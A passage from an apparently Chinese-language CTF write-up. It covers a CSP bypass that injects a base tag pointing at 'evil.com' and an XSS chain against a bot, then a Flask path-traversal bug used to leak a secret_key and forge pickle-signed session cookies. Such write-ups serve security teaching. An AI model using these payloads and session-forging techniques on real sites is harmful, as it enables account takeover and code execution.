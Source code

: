 把 CSP 的内容放到 [CSP Evaluator](https://csp-evaluator.withgoogle.com/) 里可以发现缺了 base-url，所以可以注入 base tag

```js
<base href="http://evil.com">
```

然后利用 onload 时 create 出来的带 nonce 的 script 标签来加载外部 js 代码。


#### Exp

所以整个利用过程可以总结为

- 给 bot 一个 url，打开 a 页面
- a 页面打开 b 页面，然后 history.back()
- b 页面打开 c 页面
- c 页面利用 jsonp 把 b 页面的 DOMPurify 禁掉
- b 页面控制 decrypt 出的 xss payload 拿到 opener.location，也就是 a 的location


## S0undCl0ud

题目是一个云服务，可以传 music，后端是 flask。

第一个 bug 在 get music 的时候，没有对 username 做检查，可以路径穿越

```python
@app.get("/@<username>/<file>")
def music(username, file):
    return send_from_directory(f"musics/{username}", file, mimetype="application/octet-stream")
```

不过由于不能有`/`，只能穿一层，可以拿到 app.py 的源码，也就可以拿到 secret_key。

有了 secret_key 就可以伪造 session 了

```py
payload = pickle.dumps(data)
s = TimestampSigner(
    secret_key=app.secret_key,
    salt='cookie-session',
    digest_method=hashlib.sha1,
    key_derivation='hmac',
).sign(base64_encode(payload)).decode()
print(s)
```

这里 session serializer 用的是 pickle，open session 的时候会调用 pickle.loads，可以在这里做一些事情，不过题目中pickle的 loads 被替换了。

```python
def loads_with_validate(data, *args, **kwargs):
    opcodes = pickletools.genops(data)

    allowed_args = ['user_id', 'musics', None]
    if not all(op[1] in allowed_args 
               or type(op[1]) == int 
               or type(op[1]) == str and re.match(r"^musics/[^/]+/[^/]+$", op[1])
               for op in opcodes):
        return {}

    allowed_ops = ['PROTO', 'FRAME', 'MEMOIZE', 'MARK', 'STOP',
                   'EMPTY_DICT', 'EMPTY_LIST', 'SHORT_BINUNICODE', 'BININT1',
                   'APPEND', 'APPENDS', 'SETITEM', 'SETITEMS']
    if not all(op[0].name in allowed_ops for op in opcodes):
        return {}

    return _pickle_loads(data, *args, **kwargs)

pickle.loads = loads_with_validate
```